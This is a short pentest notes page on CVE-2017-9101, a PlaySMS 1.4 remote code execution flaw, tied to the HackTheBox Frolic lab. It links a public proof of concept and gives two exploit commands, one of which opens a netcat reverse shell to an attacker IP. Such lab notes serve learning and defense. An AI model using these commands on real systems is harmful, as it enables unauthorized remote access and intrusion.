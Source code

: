```yaml
---
description: PlaySMS 1.4 - Remote Code Execution
---
```


# CVE-2017-9101

#### <mark style="color:yellow;">**PlaySMS 1.4**</mark> <mark style="color:purple;">-</mark> <mark style="color:red;">Remote Code Execution</mark> <mark style="color:purple;">-</mark> <mark style="color:orange;">**`PHP`**</mark> <mark style="color:purple;">**-**</mark> <mark style="color:blue;">**API**</mark>

<mark style="color:purple;">**Vulnerability -->**</mark> <mark style="color:yellow;">**`import.php`**</mark>&#x20;

<mark style="color:yellow;">**`import.php`**</mark> <mark style="color:purple;">(aka the</mark> <mark style="color:yellow;">**Phonebook**</mark> <mark style="color:purple;">import feature) in</mark> <mark style="color:yellow;">**PlaySMS 1.4**</mark> <mark style="color:purple;">allows</mark> <mark style="color:red;">remote code execution</mark> <mark style="color:purple;">via vectors involving the</mark> <mark style="color:red;">**`User-Agent HTTP`**</mark> <mark style="color:purple;">header and</mark> <mark style="color:orange;">**`PHP`**</mark> <mark style="color:purple;">code in the name of a file.</mark>

<mark style="color:purple;">**Score:**</mark>** **<mark style="color:blue;">**CVSS v2.0**</mark><mark style="color:purple;">**:**</mark>** **<mark style="color:yellow;">**`7.5`**</mark>** **<mark style="color:purple;">**//**</mark>** **<mark style="color:blue;">**CVSS v3.x**</mark><mark style="color:purple;">**:**</mark>** **<mark style="color:yellow;">**`9.8`**</mark>

<mark style="color:purple;">**Shows on:**</mark>&#x20;

* <mark style="color:green;">**HTB-Frolic**</mark>

### <mark style="color:purple;">**POC:**</mark>

{% embed url="https://github.com/jasperla/CVE-2017-9101" %}

```bash
#Reverse Shell

python3 playsmshell.py --password 'idkwhatispass' --url 'http://forlic.htb:9999/playsms/index.php?app=main&inc=feature_phonebook&op=phonebook_list' -c '/bin/sh -i 2>&1|nc 10.10.14.11 4444'

#SUID Enumeration
python3 playsmshell.py --password 'idkwhatispass' --url 'http://forlic.htb:9999/playsms/index.php?app=main&inc=feature_phonebook&op=phonebook_list' -c 'find / -name user.txt 2>/dev/null'

```

### <mark style="color:purple;">**Resources:**</mark>

{% embed url="https://www.exploit-db.com/exploits/42044" %}

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2017-9101" %}
